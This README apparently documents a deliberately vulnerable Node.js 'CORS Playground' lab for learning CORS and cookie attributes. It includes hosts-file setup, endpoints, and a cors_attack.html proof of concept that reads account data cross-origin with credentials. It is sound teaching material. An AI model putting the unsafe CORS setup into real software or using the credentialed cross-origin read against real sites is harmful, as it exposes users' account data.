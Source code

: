 ## CORS Playground
### Description

CORS playground provides a simple web application that you can utilise to enhance your comprehension of Cross Origin Resource Sharing. By default, it comes with CORS configured in a very unsafe way and could be easily exploited from different origins.

To make the most out of the CORS playground application, you are highly encouraged to play with the CORS settings and the session's cookie attributes both within the application code as well as different origin values. This cannot be stressed enough, changing the settings mentioned, testing them with different browsers and seeing how both CORS and the session's cookie behave under different configurations will increase your knowledge of these two critical components of web application security.

### Default settings
CORS playground runs over https and listens on port number 5555

### URLs/endpoints
```http
POST /login.html
GET /main_page.html
GET /logout
GET /api/v2/accounts
GET /api/v1/accounts
```

### Example
The following is an example of running CORS playground on your local machine.

1. Add the following entries to the file /etc/hosts (remove the comments). You could use all these domains to test different values of the domain and SameSite cookie attribute.
```bash
127.0.0.1 playground.cors.test               ## Domain for the CORS playground application itself.
127.0.0.1 project.cors.test                  ## Same level domain as playground.cors.test.
127.0.0.1 pts.playground.cors.test           ## Subdomain of playground.cors.test
127.0.0.1 pts.playground.cors.test.com.au    ## domain .com.au
127.0.0.1 cors.test                          ## parent domain of playground.cors.test
127.0.0.1 another.domain.com                 ## A totally different domain
```
2. Run CORS playground with the command `nodejs app.js` then open it up on a browser as `https://playground.cors.test:5555/` and log in.
3. Run an Apache web server over TLS.
4. Paste the following HTML code into a file named cors_attack.html (this file is also provided in this repository) and saved it on your apache webroot which by default is: `/var/www/html/`

```html
<!DOCTYPE html>
<html>
<head><meta charset="UTF-8"></head>
<body>
<script>
 var xhr = new XMLHttpRequest();
 xhr.onreadystatechange = function() {
  if (xhr.readyState == XMLHttpRequest.DONE) {
   console.log(xhr.response);
  }
 }
 url = 'https://playground.cors.test:5555/api/accounts';
 xhr.open('GET',url,true);
 xhr.setRequestHeader('CORS-playground','Penetration Testing Team');
 xhr.withCredentials = true;
 xhr.send();
</script>
</body>
</html>
```
5. Open the following url `https://another.domain.com/cors_attack.html` on a browser and look that the account information is display on the browser console.
6. Use a http proxy such as Burp or the developer tools of the browser to observe the CORS requests/responses.
### Jump in
To keep improving your skills and knowledge of CORS you might like to:

1. Add/delete/modify the attributes of the cookie generated within this application. Look for the line:
```node
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'None'});
```
 Some settings you could try:
```node
res.cookie('session',randomvalue.toString(), {domain: '.playground.cors.test', httpOnly: true, secure: true, sameSite: 'Lax'});
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'Strict'});
```
2. In the corsHandler function within the code of this applicaiton, uncomment the the section you'd like to play with and comment the remaining ones.
### References:
1. [CORS tutuorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
2. [Same Origin Policy tutorial](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
3. [Cookies tutorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
4. [portswigger CORS labs](https://portswigger.net/web-security/cors)
